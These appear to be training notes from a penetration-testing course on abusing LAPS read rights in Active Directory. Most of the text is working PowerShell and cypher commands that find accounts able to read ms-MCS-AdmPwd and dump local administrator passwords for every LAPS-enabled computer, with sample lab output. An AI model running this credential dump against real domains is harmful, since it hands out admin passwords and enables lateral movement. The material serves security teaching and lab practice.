 
---
---
## ReadLAPSPassword

> Identifying LAPS Privileges

If we get access to an account that has privileges to read `LAPS` password attributes or with either `GenericAll` or `AllExtendedRights` access rights against a target computer configured with `LAPS`, we can retrieve the local administrator password from Active Directory by reading the `ms-MCS-AdmPwd` attribute.

`BloodHound` has an edge named [ReadLAPSPassword](https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#readlapspassword), which searches if an account has the `ReadProperty` access right over the attribute `ms-MCS-AdmPwd` and if `ms-MCS-AdmPwdExpirationTime` is set. This edge helps us to identify potential attack paths by revealing accounts that can read the `LAPS` password attribute. We can use the following cypher query to identify accounts with the `ReadLAPSPassword` access right:

```cypher
MATCH p=((n)-[r:ReadLAPSPassword]->(m)) RETURN p
```

![read_laps_passwords.jpg](https://academy.hackthebox.com/storage/modules/219/read_laps_passwords.jpg)

#### Using PowerView to Enumerate DACLs

```powershell
PS C:\Tools> $group = Get-DomainGroup -Identity "LAPS Readers"
PS C:\Tools> Get-DomainObjectAcl -Identity LAPS09 -ResolveGUIDs  |?{$_.SecurityIdentifier -eq $group.objectsid}
```
## Abusing ReadProperty from Windows

```powershell
PS C:\Tools> Import-Module .\PowerView.ps1
PS C:\Tools> Get-DomainObject -Identity LAPS09 -Properties "ms-mcs-AdmPwd",name

name   ms-mcs-admpwd
----   -------------
LAPS09 Nzr$jIzT/JV4@!
```

> Using ActiveDirectory to Dump the LAPS Password

```powershell
PS C:\Tools> Import-Module ActiveDirectory
PS C:\Tools> Get-ADComputer -Identity LAPS09 -Properties "ms-mcs-AdmPwd",name
```

> If we want to enumerate all computers with `LAPS` enabled, we can use the following script:

#### Collect all LAPS-enabled Computers with PowerView

```powershell
PS C:\Tools> Import-Module .\PowerView.ps1
PS C:\Tools> Get-DomainComputer -Properties name | ForEach-Object {
    $computer = $_.name
    $obj = Get-DomainObject -Identity $computer -Properties "ms-mcs-AdmPwd",name -ErrorAction SilentlyContinue
    if($obj.'ms-mcs-AdmPwd'){
        Write-Output "$computer`: $($obj.'ms-mcs-AdmPwd')"
    }
}

DC01:
LAPS01: s19I/p9J5@[F$s
LAPS02: y2QLPdd;T9u,]9
<SNIP>
LAPS09: Nzr$jIzT/JV4@!
```

---
---
